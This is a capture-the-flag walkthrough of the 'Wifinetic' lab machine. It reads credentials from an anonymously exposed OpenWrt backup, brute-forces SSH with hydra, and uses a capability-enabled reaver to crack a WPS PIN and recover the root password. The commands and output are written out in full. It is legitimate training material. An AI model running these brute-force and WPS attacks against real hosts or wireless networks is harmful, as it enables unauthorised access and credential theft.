





# Wifinetic

<figure><figcaption></figcaption></figure>

## User Flag

### Enumeration

First we start off with our nmap scan, we can usually run the script/version scans right off the bat on these easy machines:

```console
toasty@par$ sudo nmap -sC -sV 10.10.11.247
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 11:21 EDT
Nmap scan report for 10.10.11.247
Host is up (0.032s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.45 seconds

```

We can see it looks like the only services open to us currentlya are `FTP`, `SSH`, and possibly `DNS`.

### Anonymous FTP

From the `nmap` scan we know that anonymous logins are allowed. We can easily get in and grab the files:

```console
toasty@par$ ftp 10.10.11.247
Connected to 10.10.11.247.
220 (vsFTPd 3.0.3)
Name (10.10.11.247:toasty): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
-rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
-rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
-rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
226 Directory send OK.
ftp> mget *
mget MigrateOpenWrt.txt? y
200 PORT command successful. Consider using PASV.
.. SNIP
toasty@par$ ls
backup-OpenWrt-2023-07-26.tar  MigrateOpenWrt.txt         ProjectOpenWRT.pdf
employees_wellness.pdf         ProjectGreatMigration.pdf  scans

```

### OpenWRT

What is [OpenWRT](https://openwrt.org/)? It is a Linux OS that is for embedded devices. A lot of the files we see in our initial ftp grab are related to a planned migration the company appears to be doing from OpenWRT to Debian.

Let's take a look at some of the other files in here.

### Employees

We find a few employee names in the PDF's below:\
olivia.walker17@wifinetic.htb - Network Administrator in `ProjectOpenWRT.pdf`:

<figure><figcaption></figcaption></figure>

samantha.wood93@wifinetic.htb - HR Manager in the `employees_wellness.pdf`:

<figure><figcaption></figcaption></figure>

We'll add those names to a `potential_users.txt` file.

### ETC Backup

There is also a backup file in the files we downloaded, `backup-OpenWrt-2023-07-26.tar`.

We can quickly unpack that and we see that it appears to be a backup of the `/etc/` folder.

```console
toasty@par$ tar -xf backup-OpenWrt-2023-07-26.tar
toasty@par$ ls
backup-OpenWrt-2023-07-26.tar  MigrateOpenWrt.txt         scans
employees_wellness.pdf         ProjectGreatMigration.pdf
etc                            ProjectOpenWRT.pdf
toasty@par$ ls etc/
config    hosts         nftables.d  profile   shinit       uhttpd.key
dropbear  inittab       opkg        rc.local  sysctl.conf
group     luci-uploads  passwd      shells    uhttpd.crt
```

### Passwd

We can read out the `passwd` file to see if we can find any other users. At first we see quite a few and a lot of them look to be default, but we can grab out any users that have a `home` directory.

```console
toasty@par$ cat passwd 
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
toasty@par$ cat passwd | grep home
ftp:*:55:55:ftp:/home/ftp:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

We can add `ftp` and `netadmin` to our `potential_users.txt` file.

### Config Files

There is a `config` directory in our `etc` backup, let's dig in there and see if we find anything useful.

```console
toasty@par$ ls config/
dhcp  dropbear  firewall  luci  network  rpcd  system  ucitrack  uhttpd  wireless
```

#### Wireless

In the wireless file we do see a password `VeRyUniUqWiFIPasswrd1` that we can add that to a `passwords.txt` file.

```
...SNIP
config wifi-iface 'wifinet0'
	option device 'radio0'
	option mode 'ap'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'
	option wps_pushbutton '1'

config wifi-iface 'wifinet1'
	option device 'radio1'
	option mode 'sta'
	option network 'wwan'
	option ssid 'OpenWrt'
	option encryption 'psk'
	option key 'VeRyUniUqWiFIPasswrd1!'

```

#### RPCD

Here we see another potential password we might as well add to our `passwords.txt` file.

```
config rpcd
	option socket /var/run/ubus/ubus.sock
	option timeout 30

config login
	option username 'root'
	option password '$p$root'
	list read '*'
	list write '*'

```

We check all the other files in here as well, but they did not lead anywhere.

### Hydra into SSH

We have built the `potential_usernames.txt` and `password.txt` files, and we can now use those to attempt to bruteforce the ssh port.

```console
toasty@par$ cat potential_users.txt 
olivia.walker17@wifinetic.htb
samantha.wood93@wifinetic.htb
ftp
netadmin
toasty@par$ cat passwords.txt 
VeRyUniUqWiFIPasswrd1!
$p$root
toasty@par$ hydra -L potential_users.txt -P passwords.txt ssh://10.10.11.247
.. SNIP
[DATA] attacking ssh://10.10.11.247:22/
[22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
1 of 1 target successfully completed, 1 valid password found
.. SNIP
```

We got a hit! `netadmin:VeRyUniUqWiFIPasswrd1!`

### SSH

Let's verify we have access and try to `ssh` in. (Note: I am only using `sshpass` to show in output that the password we found is working, this is not a secure practice)

```console
toasty@par$ sshpass -p VeRyUniUqWiFIPasswrd1! ssh netadmin@10.10.11.247
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

.. SNIP
Last login: Thu Sep 21 15:31:47 2023 from 10.10.14.128
netadmin@wifinetic:~$ id
uid=1000(netadmin) gid=1000(netadmin) groups=1000(netadmin)
```

### User.txt

Now that we are in, we can grab the user flag.

```console
netadmin@wifinetic:~$ ls
user.txt
netadmin@wifinetic:~$ cat user.txt 
67130***************************
```

***

## Root Flag

Time to try and get root.

### Sudo

First thing, want to check if we have any `sudo` privileges and turns out we do not.

```console
netadmin@wifinetic:~$ sudo -l
[sudo] password for netadmin: 
Sorry, user netadmin may not run sudo on wifinetic.
```

### Linpeas

Once on the machine I wanted to run [linPEAs](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to find anything interesting and a few things stood out.

#### Users with Console

First we see that there are a good amount of users on the machine, and we can keep that in mind for future enumeration/bruteforcing:

<figure><figcaption></figcaption></figure>

#### Extra Network Interfaces

We also see that over the standard network interfaces `eth0` and `lo`, there are a few more such as `mon0`, `wlan0`, `wlan1`, and `wlan2`:

<figure><figcaption></figcaption></figure>

#### Files with Capabilities

We have a few files with capabilities. Capabilites are a subset of root privileges that are given to a process to give it a little bit more permissions without having full root privileges. A good write up on it can be found by [Heino Sass Hallik](https://materials.rangeforce.com/tutorial/2020/02/19/Linux-PrivEsc-Capabilities/).

<figure><figcaption></figcaption></figure>

While those files are interesting, `ping` and `traceroute` are not going to help us get root. However, `reaver` will help us.

### Reaver

[Reaver](https://www.kali.org/tools/reaver/) is a tool used to brute force WPS pins. We can use this to our advantage to get root. Since this is the `wifinetic` box, this is probably the correct direction. We can see that the `Reaver` binary has the capabilities of `cap_net_raw+ep` which allows it to use raw packets and bind to any interface which is usually limited to elevated users.

#### iwconfig

First we want to check out the wireless interfaces and see if we can find anything interesting.

```console
netadmin@wifinetic:~$ iwconfig
hwsim0    no wireless extensions.
lo        no wireless extensions.
mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on         
wlan2     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on         
eth0      no wireless extensions.
wlan1     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on          
wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
```

We see that `mon0` is in monitor mode and only `wlan0` is in master mode. We can use `reaver` to brute force the WPS pin on `wlan0`.

#### Getting BSSID

To run `reaver` we need the `BSSID` of the `wlan0` interface. If we look back at our `linpeas` network output, we can see that the BSSID is `02:00:00:00:00:0002:00:00:00:00:00`

#### Running Reaver

We can now run `reaver` and try to brute force the WPS pin. We can use the `-vv` flag to get more verbose output.

```console
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv
Reaver v1.6.5 WiFi Protected Setup Attack Tool

..SNIP
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 7 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
[+] Nothing done, nothing to save.
```

If this were a real network, we could now connect to the `OpenWrt` network with the password we found. But in the case of the box, we can just add the PSK to our `passwords.txt` file.

### Hyrda Round 2

Now that we have an updated `potential_users.txt` and `passwords` file, we can try to brute force the ssh port again.

```console
toasty@par$ cat potential_users.txt 
ayoung33
bwhite3
dmorgan99
dwright27
eroberts25
jallen10
janderson42
jletap77
kgarcia22
lturner56
mhughes12
mickhat
mrobinson78
nlee61
owalker17
pharris47
root
rturner45
sjohnson98
tcarter90
tclark84
toasty@par$ cat passwords.txt 
VeRyUniUqWiFIPasswrd1!
$p$root
WhatIsRealAnDWhAtIsNot51121!
toasty@par$ hydra -L potential_users.txt -P passwords.txt ssh://10.10.11.247
..SNIP

[22][ssh] host: 10.10.11.247   login: root   password: WhatIsRealAnDWhAtIsNot51121!
1 of 1 target successfully completed, 1 valid password found
```

We can now `ssh` in as `root` with the password we found.

### SSH as Root

```console
toasty@par$ sshpass -p WhatIsRealAnDWhAtIsNot51121! ssh root@10.10.11.247
.. SNIP

Last login: Thu Sep 21 21:07:02 2023 from 10.10.11.247
root@wifinetic:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Root.txt

All that is left is to grab the root flag.

```console
root@wifinetic:~# ls
root.txt  snap

root@wifinetic:~# cat root.txt 
1153***************************
```
